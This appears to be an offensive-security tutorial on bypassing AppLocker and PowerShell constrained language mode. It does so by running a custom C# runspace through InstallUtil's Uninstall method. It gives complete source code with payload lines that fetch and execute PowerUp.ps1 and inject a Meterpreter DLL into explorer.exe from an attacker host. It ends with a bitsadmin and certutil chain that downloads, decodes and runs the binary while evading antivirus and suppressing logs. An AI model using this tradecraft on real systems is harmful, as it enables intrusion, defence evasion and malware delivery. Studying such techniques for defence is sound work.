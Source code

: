 PowerShell.exe is essentially a GUI application handling input and output. The real functionality lies inside the System.Management.Automation.dll managed DLL, which PowerShell.exe calls to create a runspace.
It is possible to leverage multithreading and parallel task execution through either Jobs or Runspaces. The APIs for creating a runspace are public and available to managed code written in C#.
This means we could code a C# application that creates a custom PowerShell runspace and executes our script inside it. This is beneficial since, custom runspaces are not restricted by AppLocker.
we can construct a constrained language mode bypass to allow arbitrary PowerShell execution.

We will have to bypass AppLocker executable rules to execute this C# code, we ca use native Windows applications( InstallUtil) that can be abused to bypass AppLocker by fooling the filter driver.
we will leverage InstallUtil, a command-line utility that allows us to install and uninstall server resources by executing the installer components in a specified assembly. This Microsoft-supplied tool obviously has legitimate uses, but we can abuse it to execute arbitrary C# code.

To use InstallUtil in this way, we must put the code we want to execute inside either the install or uninstall methods of the installer class.

We are only going to use the uninstall method since the install method requires administrative privileges to execute.

create a new C# Console App project, we'll create a runspace through the CreateRunspace method of the System.Management.Automation.Runspaces namespace and Unfortunately, Visual Studio can not locate System.Management.Automation.Runspaces.
to resolve this, we must manually add the assembly reference, C:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35 folder where we will select System.Management.Automation.dll.
Also refer System.Configuration.Install namespace, Assemblies menu > System.Configuration.Install

Although our code uses both the Main method and the Uninstall method, content in the Main method is not important in this example. However, the method itself must be present in the executable.
Since the content of the Main method is not part of the application whitelisting bypass, we could use it for other purposes, like bypassing antivirus.

Inside the Uninstall method, we can execute arbitrary C# code i.e custom runspace code. 

Custom runspace C# code inside Uninstall method:

      using System;
      using System.Management.Automation;
      using System.Management.Automation.Runspaces;
      using System.Configuration.Install;
      
      namespace Bypass
      {
          class Program
          {
              static void Main(string[] args)
              {
                  Console.WriteLine("This is the main method which is a decoy");
                  ***<comment>Since the content of the Main method is not part of the application whitelisting bypass, we could use it for other purposes, like bypassing antivirus.<comment>***
                  
              }
          }
      
          [System.ComponentModel.RunInstaller(true)]
          public class Sample : System.Configuration.Install.Installer
          {
              public override void Uninstall(System.Collections.IDictionary savedState)
              {
                  String cmd = "$ExecutionContext.SessionState.LanguageMode | Out-File -FilePath C:\\test.txt";
                  
                  ***<comment>String cmd = "(New-Object System.Net.WebClient).DownloadString('http://<kali ip>/PowerUp.ps1') | IEX; Invoke-AllChecks | Out-File -FilePath C:\\test.txt"; <comment>***

                  ***<comment>Reflectively loading Meterpreter DLL into explorer.exe: 
                  
                  String cmd = "$bytes = (New-Object System.Net.WebClient).DownloadData('http://<kali ip>/met.dll');(New-Object System.Net.WebClient).DownloadString('http://<kali ip>/Invoke-ReflectivePEInjection.ps1') | IEX; $procid = (Get-Process -Name explorer).Id; Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid";
                  
                  <comment>***
                  
                  Runspace rs = RunspaceFactory.CreateRunspace();
                  rs.Open();
      
                  PowerShell ps = PowerShell.Create();
                  ps.Runspace = rs;
      
                  ps.AddScript(cmd);
      
                  ps.Invoke();
      
                  rs.Close();
              }
          }
      }

Before compiling the project, we'll switch from "Debug" to "Release" mode and select 64-bit for compilation.

To trigger our constrained language mode bypass code, we must invoke it through InstallUtil with /logfile to avoid logging to a file, /LogToConsole=false to suppress output on the console and /U to trigger the Uninstall method

    C:\Users\>C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Bypass.exe

At this point, it would be possible to reuse this tradecraft with the Microsoft Word macros we developed earlier since they are not limited by AppLocker. Instead of using WMI to directly start a PowerShell process and download the shellcode runner from our Apache web server, we could make WMI execute InstallUtil and obtain the same result despite AppLocker.

The compiled C# file has to be on disk when InstallUtil is invoked. This requires two distinct actions. First, we must download an executable, and secondly, we must ensure that it is not flagged by antivirus, neither during the download process nor when it is saved to disk. we can use other native Windows binaries, which are whitelisted by default.

To attempt to bypass anitvirus, we are going to obfuscate the executable while it is being downloaded with Base64 encoding and then decode it on disk. Well use the native certutil3 tool to perform the encoding and decoding and bitsadmin for the downloading.

Base64 encoding the executable with certutil: 

      cmd> certutil -encode C:\Users\\source\repos\Bypass\Bypass\bin\x64\Release\Bypass.exe file.txt

Certutil can also be used to download files over HTTP(S), but this triggers antivirus due to its widespread malicious usage. 

Complete combined command to download, decode and execute the bypass: 

      cmd>bitsadmin /Transfer myJob http://<kali ip>/file.txt C:\users\enc.txt && certutil -decode C:\users\enc.txt C:\users\Bypass.exe && del C:\users\enc.txt && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\users\Bypass.exe


